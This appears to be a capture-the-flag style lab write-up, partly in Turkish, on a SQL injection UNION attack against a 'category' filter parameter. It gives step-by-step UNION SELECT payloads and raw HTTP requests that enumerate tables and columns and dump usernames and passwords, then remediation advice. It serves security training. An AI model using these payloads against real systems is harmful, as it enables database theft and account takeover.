





# SQL injection UNION attack, retrieving data from other tables

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda `category` parametresi SQL sorgusuna güvenli şekilde eklenmediği için `UNION SELECT` payload'larıyla sorguya müdahale edilebiliyordu. Amaç, veritabanındaki farklı bir tablodan kullanıcı adı ve parola bilgilerini çekerek `administrator` kullanıcısıyla giriş yapmaktı.

## 3. Exploitation Steps

1. Burp Suite ile kategori filtresini ayarlayan isteği yakaladım.
2. `UNION SELECT` ile sorgunun iki kolon döndürdüğünü ve payload'ın response içinde çalıştığını doğruladım:

```sql
' UNION SELECT null,null--
```



3. Veritabanındaki tabloları listelemek için `information_schema.tables` tablosundan `table_name` değerlerini çektim:

```sql
' UNION SELECT table_name,null FROM information_schema.tables--
```

4. Response içinde `users` tablosunun bulunduğunu gördüm.



5. `users` tablosundaki kolon adlarını bulmak için `information_schema.columns` tablosunu sorguladım:

```sql
' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users'--
```

6. Response içinde `username`, `email` ve `password` kolonlarının bulunduğunu tespit ettim.



7. Kullanıcı adı ve parola bilgilerini çekmek için `users` tablosundan `username` ve `password` kolonlarını döndürdüm:

```sql
' UNION SELECT username,password FROM users--
```

8. Response içinde `administrator` kullanıcısının parolasını buldum:

```text
administrator : lqc4y0w2b1imvjxg0fg8
```



9. Bu bilgilerle `administrator` hesabına giriş yaparak labı tamamladım.



## 4. Kullanılan Payloadlar

- Kolon sayısını ve `UNION SELECT` çalışmasını doğrulamak için:

```http
GET /filter?category=' UNION SELECT null,null-- HTTP/2
```

- Tablo adlarını listelemek için:

```http
GET /filter?category=' UNION SELECT table_name,null FROM information_schema.tables-- HTTP/2
```

- `users` tablosundaki kolon adlarını listelemek için:

```http
GET /filter?category=' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users'-- HTTP/2
```

- Kullanıcı adı ve parola bilgilerini çekmek için:

```http
GET /filter?category=' UNION SELECT username,password FROM users-- HTTP/2
```

## 5. Sonuç

- Sorgunun iki kolon döndürdüğünü tespit ettim.
- `information_schema.tables` üzerinden `users` tablosunu buldum.
- `information_schema.columns` üzerinden `username` ve `password` kolonlarını tespit ettim.
- `users` tablosundan `administrator` kullanıcısının parolasını çekerek labı tamamladım.

## 6. Etki

Bu zafiyet saldırganın veritabanındaki diğer tablolara erişmesine ve hassas kullanıcı bilgilerini çıkarmasına neden olabilir. Kullanıcı adı ve parola gibi veriler ele geçirildiğinde hesap devralma, yetki yükseltme ve sistem üzerinde daha geniş kapsamlı erişim mümkün hale gelebilir.

## 7. Çözüm

- SQL sorgularında parametreli/prepared statement kullan.
- Kullanıcı girdilerini SQL sorgusuna doğrudan ekleme.
- Veritabanı kullanıcısına yalnızca ihtiyaç duyduğu minimum yetkileri ver.
- Parolaları düz metin olarak saklama; güçlü, yavaş ve tuzlu hash algoritmaları kullan.
